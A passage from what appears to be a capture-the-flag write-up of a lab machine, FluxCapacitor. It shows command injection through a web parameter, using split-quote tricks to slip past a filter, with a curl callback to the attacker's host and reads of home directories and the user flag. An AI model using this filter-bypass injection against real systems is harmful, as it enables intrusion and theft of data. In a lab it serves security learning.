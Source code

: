 I won't update every command from here on, but do note that you may need
something else besides `curl`. Thanks to InvertedClimbing for the tip.

Test callout:



    root@kali# python -m SimpleHTTPServer 80
    Serving HTTP on 0.0.0.0 port 80 ...
    10.10.10.69 - - [25/Mar/2018 14:34:01] "GET / HTTP/1.1" 200 -

    root@kali# curl "10.10.10.69/sync?opt=' cu''rl 10.10.14.157'"
    0xdf
    bash: -c: option requires an argument



Grab user.txt:



    root@kali# curl "10.10.10.69/sync?opt=' l''s /home'"
    FluxCapacitorInc
    themiddle
    bash: -c: option requires an argument

    root@kali# curl "10.10.10.69/sync?opt=' l''s /home/themiddle'"
    checksync
    user.txt
    bash: -c: option requires an argument

    root@kali# curl "10.10.10.69/sync?opt=' c''at /home/themiddle/us''er.txt'"
    Flags? Where we're going we don't need flags.
    bash: -c: option requires an argument

    root@kali# curl "10.10.10.69/sync?opt=' c''at /home/FluxCapacitorIn''c/us''er.txt'"
    [redacted]
    bash: -c: option requires an argument



## Get a shell?

Try a shell:



    root@kali# curl "10.10.10.69/sync?opt=' whi''ch pytho''n'"
    bash: -c: option requires an argument

    root@kali# curl "10.10.10.69/sync?opt=' whi''ch pytho''n3'"
    /usr/bin/python3
    bash: -c: option requires an argument



## Give up on Shell, privesc through web

Can find python3, but pipe gets blocked, and i can't write even to tmp.
Getting a shell seems hard.
